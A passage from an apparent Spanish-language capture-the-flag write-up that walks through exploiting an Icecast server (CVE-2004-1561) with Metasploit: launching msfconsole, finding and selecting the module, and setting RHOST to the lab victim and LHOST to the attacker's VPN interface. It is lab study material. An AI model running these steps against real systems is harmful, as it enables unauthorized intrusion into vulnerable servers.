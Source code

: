 #### METASPLOIT
Inicio `metasploit` y busco la vulnerabilidad
```
msfconsole -q
```
```
search icecast
# ó
search CVE-2004-1561
```
<p align="center">
    <img src="../img/Pasted_image_20240818221425.png" width="500">
</p>

Uso el módulo encontrado
```
use 0
```
<p align="center">
    <img src="../img/Pasted_image_20240818221506.png" width="500">
</p>

Veo las opciones
```
show options
```

Cambio las opciones que necesito, como el RHOST que es la dirección de la máquina victima, y reviso el LHOST comprobando que sea la misma que la interfaz de red `tun0`, en este caso tengo que cambiarla, y reviso las opciones.
```
set RHOST 10.10.65.129
set LHOST 10.2.37.7
show options
```
<p align="center">